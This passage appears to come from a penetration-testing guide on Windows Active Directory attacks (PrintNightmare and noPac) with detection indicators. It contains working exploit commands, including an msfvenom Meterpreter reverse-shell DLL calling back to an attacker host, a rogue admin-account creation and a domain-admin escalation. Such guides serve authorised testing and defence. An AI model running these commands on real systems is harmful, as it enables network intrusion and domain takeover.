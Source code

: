 ```bash

# Step 4: Create malicious DLL (if exploitation approved)
# Use msfvenom or custom DLL for payload delivery
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f dll -o evil.dll

# Step 5: Execute PrintNightmare exploit
python3 CVE-2021-1675.py 'domain/user:password@target_ip' -dll '\\attacker_ip\share\evil.dll'

# Alternative: Add new admin user
python3 CVE-2021-1675.py target_ip/user:pass@target_ip -newuser -username "backup" -password "P@ssw0rd123!"
```

#### Detection Indicators
```bash
# Event Log Monitoring
# Event ID 4624: Account logon (new admin account)
# Event ID 4720: User account created
# Event ID 7045: Service installation (malicious driver)

# File System Artifacts
dir C:\Windows\System32\spool\drivers\x64\3\
# Look for unusual DLL files

# Registry Artifacts
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers"
# Check for suspicious driver entries
```

### 3. **Sam the Admin (CVE-2021-42278 / CVE-2021-42287)**
**Active Directory domain privilege escalation vulnerability**

#### What It Is
- **Privilege escalation** vulnerability in Active Directory
- **Computer account impersonation** of domain controllers
- **Kerberos authentication bypass** leading to domain admin
- **Combination of two CVEs** working together

#### Technical Details
```bash
# Vulnerability chain:
# 1. CVE-2021-42278: Computer account name confusion
# 2. CVE-2021-42287: Kerberos authentication bypass

# Detection Methods
ldapsearch -x -H ldap://dc_ip -D "user@domain" -W -b "DC=domain,DC=local" "(objectClass=computer)"

# Check for vulnerable configurations
crackmapexec ldap target_ip -u user -p pass --kdcHost dc_ip

# Exploitation Tools (Client Approval Required!)
# noPac.py from Impacket
python3 noPac.py domain/user:password -dc-ip DC_IP -use-ldap
```
